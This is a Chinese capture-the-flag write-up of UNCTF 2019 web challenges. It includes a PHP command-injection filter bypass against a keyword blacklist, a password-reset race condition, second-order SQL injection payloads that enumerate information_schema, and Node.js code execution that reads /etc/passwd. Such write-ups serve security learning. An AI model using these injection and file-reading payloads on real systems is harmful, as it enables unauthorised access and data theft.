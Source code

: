 # unctf2019

## bypass

```php

<?php
    highlight_file(__FILE__);
    $a = $_GET['a'];
    $b = $_GET['b'];
 // try bypass it
    if (preg_match("/\'|\"|,|;|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $a))
        $a = "";
        $a ='"' . $a . '"';
    if (preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $b))
        $b = "";
        $b = '"' . $b . '"';
     $cmd = "file $a $b";
      str_replace(" ","","$cmd"); 
     system($cmd);
?>
```



用`a=\&b=\`来逃脱引号

用?来匹配,但是隐藏文件是无法显示的要自己在前面加一个.

`file "\" -f "  \"`

最后在` http://101.71.29.5:10054/.F1jh_/h3R3_1S_your_F1A9.txt `里找到flag

`unctf{86dfe85d7c5842c5c04adae104193ee1}`



## NSB RESET PASSWORD

题目说是重置密码,刚开始我想的是越权

后面搞了好久都不行。后面试着弄了一下发现一个验证码可以多次用.

我就猜有可能是条件竞争

先注册一个账号用收到的验证码重置，然后再用admin账号请求重置密码

然后直接跳到修改密码的界面,修改一下就出来了



 flag{175f3098f80735ddfdfbd4588f6b1082} 



## 帮赵总征婚

盲猜sql注入

转义:`',",\,#`

还给了我们一个phpinfo?????

我也想帮赵总征婚啊，可是我没机会

remember_me 是否可以注入?





## inject twice

题目是sql-lab的源码

二次注入点

```php
if (isset($_POST['submit']))
{
	
	
	# Validating the user input........
	$username= $_SESSION["username"];
	$curr_pass= mysql_real_escape_string($_POST['current_password']);
	$pass= mysql_real_escape_string($_POST['password']);
	$re_pass= mysql_real_escape_string($_POST['re_password']);
	
	if($pass==$re_pass)
	{	
		$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
		$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
		$row = mysql_affected_rows();
		echo '<font size="3" color="#FFFF00">';
		echo '<center>';
		if($row==1)
		{
			echo "Password successfully updated";
	
		}
		else
		{
			header('Location: failed.php');
			//echo 'You tried to be smart, Try harder!!!! :( ';
		}
	}
	else
	{
		echo '<font size="5" color="#FFFF00"><center>';
		echo "Make sure New Password and Retype Password fields have same value";
		header('refresh:2, url=index.php');
	}
}
?>
```



但是得到admin账号后,并没有得到flag,估计要把数据库给溜一圈。

黑名单:`or, `

注册一个`hello\`的账号,就可以用,currentpass来注入,但是环境炸了,我sleep了一下就奇奇怪怪了

//////////////???????????????????

currentpass=`/**/or/**/1-- a`

数据库名` or (SELECT substr(hex(group_concat(schema_name)),1,1) FROM information_schema.schemata)=char(54)-- a`

information_schema,metinfo,mysql,performance_schema,security,sys

表:

`GROUP_CONCAT(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA=database()`

security:emails,fl4g,referers,uagents,users

列名

fl4g:f1ag

最后的flag` UNCTF{585ae8df50433972bb6ebd76e3ebd9f4}`





## checkin 

又是一个vue应用

![image.png](http://ww1.sinaimg.cn/large/006pWR9agy1g8cz6r1f4pj30ep0d2wfe.jpg)

在代码中发现

/calc: 可以命令执行,但是却没有办法找到有效的利用方式

后端是node.js

version: v10.12.0 

cwd:/usr

/usr目录

 bin,games,include,lib,local,sbin,share,src 

res.end(require('fs').readFileSync('/etc/passwd').toString())

require('fs').readdirSync.('/etc/passwd').toString()

在根目录下找到flag

  flag{0e4d1980ef6f8a81428f83e8e1c6e22b} 

最后还是晚了一分钟

看来改天要看看nodejs的东东?

